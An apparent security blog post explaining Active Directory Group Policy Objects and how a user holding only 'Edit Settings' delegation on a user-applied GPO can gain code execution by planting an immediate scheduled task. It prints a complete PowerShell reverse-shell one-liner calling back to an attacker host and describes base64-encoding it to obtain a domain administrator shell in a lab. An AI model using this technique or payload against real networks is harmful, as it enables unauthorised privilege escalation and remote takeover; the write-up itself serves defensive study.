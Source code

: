 ```yaml
---
title: "GPO - Chemin d'attaque"
date: 2019-04-23 11:28:42
author: "Pixis"
layout: post
permalink: /gpo-abuse-with-edit-settings/
disqus_identifier: 0000-0000-0000-00ae
cover: assets/uploads/2019/04/gpo_banner.png
description: "This article describe what's a GPO and show a possible attack road when attacker has GPO parameter modification rights applied to users"
tags:
  - "Active Directory"
  - Windows
---
```


This article describe what's a GPO (Group Policy Object) and show a possible attack road when attacker has GPO parameter modification rights applied to users.

<!--more-->

## Group Policy Object

### Definition

Among the different Active Directory Roles, whe have the IT infrastructure management Role. Active Directory allow you to manage all machines and users in your information system, for that, the "Group Policy Objects" (GPO) are essential tools.

Concretely, GPOs are sets of rules / actions applied to a well-defined set of objects. A GPO can do many, many things.

[![Example GPO](/assets/uploads/2019/04/example_gpo.png)](/assets/uploads/2019/04/example_gpo.png)

As seen in this screenshot, it's possible to create / modify scripts at machine's startup and shutdown, change firewall settings, create scheduled tasks, or even add users in the local administration group. These are just a few examples to show how diverse and powerful the GPO's enforce functionality is.

### Composition

A GPO is set by 2 elements :

* A Container (Group Policy Container - GPC), Who's an active directory saved object, under the group `adsec.local > system > policies`. Each GPO is identified by a domain's unique id.

[![GPC](/assets/uploads/2019/04/gpc.png)](/assets/uploads/2019/04/gpc.png)

There you can create / modify GPOs , like all other Active directory Objects.

* All files containing applied informations on Machines and Users. These files are present on each domain controller in the network share `\\dc-01.adsec.local\SYSVOL\adsec.local\Policies\` . One Folder by GPO, named with the unique ID corresponding to GPC container

[![GPO files](/assets/uploads/2019/04/gpo_files.png)](/assets/uploads/2019/04/gpo_files.png)

With that share, all domaines account can retreave and update their GPOs.

## Research context

In my crusade on Active Directory, I frequently use [Bloodhound](https://github.com/BloodHoundAD/BloodHound) developed by [@wald0](https://twitter.com/_wald0), [@Harmj0y](https://twitter.com/harmj0y) and [@CptJesus](https://twitter.com/cptjesus), that i can never thank enough for their work and their availability on their slack [BloodHoundHQ](https://bloodhoundgang.herokuapp.com/). 

After watching the [speaking](https://www.youtube.com/watch?v=0r8FzbOg2YU&list=PL1eoQr97VfJnvOWo_Jxk2qUrFyB-BJh4Y&index=4&t=0s) of [@wald0](https://twitter.com/_wald0) and [@CptJesus](https://twitter.com/cptjesus) 15/5000
at the conference [WeAreTroopers](https://www.troopers.de/), i begin to look for GPO attack path, Bloodhound realy help for that, and in particular proposes an attack path when an domain account has `WriteDacl` on a GPO.

[![BloodHound Path](/assets/uploads/2019/04/bh_path.png)](/assets/uploads/2019/04/bh_path.png)

In this diagram, we see a user with a skull, corresponding to a compromised account. This account is part of group with `WriteDacl` rights on a GPO. This GPO applies to a Organisation Unit (OU) including the user in the bottom right. Target of the attack.

This right `WriteDacl` allows group members to modify concerned GPO ACLs (Access Control List), in other way the GPO Acces right, and can make modification of the object owner.
Then, a user with this group right can self-proclaim owner, and modify it on the fly.

By default, when create a GPO, just few people have modification rights. Users can read it (needed for apply !) but only the "Domain Admins" and "Enterprise Admins" group have full right on it, they can modify (Edit settings), remove (Delete), and modify acces right (Modify Security).

[![ACL GPO](/assets/uploads/2019/04/ACL_GPO.png)](/assets/uploads/2019/04/ACL_GPO.png)

If an administrator wants to delegate permissions to a user without adding him to one of the two groups, he can via this delegation tab. It's a place simplifying the right management on GPOs. Indeed, it is quite possible to modify the rights directly at GPC level, but it is much more complex.

[![GPC Rights](/assets/uploads/2019/04/GPC_rights.png)](/assets/uploads/2019/04/GPC_rights.png)

We see that the scroll bar allows you to list a large, very large number of access parameters.

It is therefore easier to go through the GPO management interface to add a user in order to delegate rights to him:

[![Add User ACL Gpo](/assets/uploads/2019/04/add_user_acl_gpo.png)](/assets/uploads/2019/04/add_user_acl_gpo.png)

Then we indicate the rights we want grant to it:

[![Edit settings user](/assets/uploads/2019/04/edit_settings_add_user.png)](/assets/uploads/2019/04/edit_settings_add_user.png)

Three choices are proposed, choices which are a preselection making life easier for administrators, by modifying very specific rights at the level of the GPC.

[![Edit settings added for user](/assets/uploads/2019/04/settings_added.png)](/assets/uploads/2019/04/settings_added.png)

Now this user is one of the users / groups who have the ultimate rights on this GPO. It's this total control that we see appearing in BloodHound when an entity has a "WriteDacl" link to a GPO. Indeed, this preselection adds the security parameters "Modify Owner" and "Modify Permissions".

[![Write DACL](/assets/uploads/2019/04/writedacl.png)](/assets/uploads/2019/04/writedacl.png)

## "Edit Settings" Rights

We saw above that we have three levels of delegation:

* Read
* Edit Settings
* Edit Settings, delete, modify security

Only the third level is supported in the BloodHound collection. However, what happens if a user only has the modification right on the GPO, but not the associated ACLs? BloodHound not going up this link, that's the question I asked myself.

To answer, I created an example GPO, called "TestGPO Abuse", applying to all users belonging to the OU "Domain Users". As in the previous example, I added the user "jdoe" in the management delegation of this GPO, indicating that he could only modify the GPO parameters, but not the associated ACLs ("Edit Settings ").

[![Edit Settings for jdoe](/assets/uploads/2019/04/edit_settings_jdoe.png)](/assets/uploads/2019/04/edit_settings_jdoe.png)

## Users applied GPOs

In my research, I also wanted to know what I could do when the GPO only applied to users, not machines. This is why "TestGPO Abuse" only applies to the "Domain Users" OU. Indeed, all the controllable parameters in the "Computer Configuration" part of the GPO will not apply if this GPO is intended for users. Only those in "User Configuration" will be.

[![No Computer GPO](/assets/uploads/2019/04/no_computer_gpo.png)](/assets/uploads/2019/04/no_computer_gpo.png)

But in practical terms, what is available in the GPO settings applied to a user? Much less, but interesting parameters anyway!

[![User Example GPO](/assets/uploads/2019/04/user_gpo_example.png)](/assets/uploads/2019/04/user_gpo_example.png)

We see that we can install packages, manage the login / logout scripts once again, edit local groups and users and scheduled tasks.

## Exploiting via an immediate scheduled task

We will focus more specifically on the planned tasks. Scheduled tasks can be created that will run immediately when the GPO is applied to the user.

So if we log in as user `jdoe` on a machine, we can create this task.

[![Abuse Task](/assets/uploads/2019/04/abusetask.png)](/assets/uploads/2019/04/abusetask.png)

She is created as the user `jdoe`, and when applied, it will be as the applied user.


Elle est créée en tant que l'utilisateur `jdoe`, et lorsqu'elle sera appliquée, ce sera en tant que l'utilisateur à qui elle s'applique.

In the "Actions" tab, we indicate what will happen at runtime. Here, we use a Powershell reverse-shell so that when it is executed, the target user connect back to attacker proposing a shell.

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.0.20.12",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

This code is convert in base 64 format and send with the command `powershell -enc <command in base 64>`.

[![Abuse Task Powershell](/assets/uploads/2019/04/abusetask_pwsh.png)](/assets/uploads/2019/04/abusetask_pwsh.png)

Once this task has been created, end after updating GPOs on a client, if for example the `support-account` (which is the domain administrator in this lab), the code is executed on the machine, and the attacker retrieves a shell as a domain administrator.

[![Reverse Shell Worked](/assets/uploads/2019/04/re_shell_worked.png)](/assets/uploads/2019/04/re_shell_worked.png)

## Conclusion

The idea of this article is to show you that GPOs are a pillar in the Active Directory organization, and must be mastered just as much as many other objects. An improperly placed permission can allow an attacker to abuse and elevate his privileges in the information system.

Here, we take a example of a scheduled task used on a users applied GPO, however there are a large number of possibilities opened by GPOs which can be used to execute code.
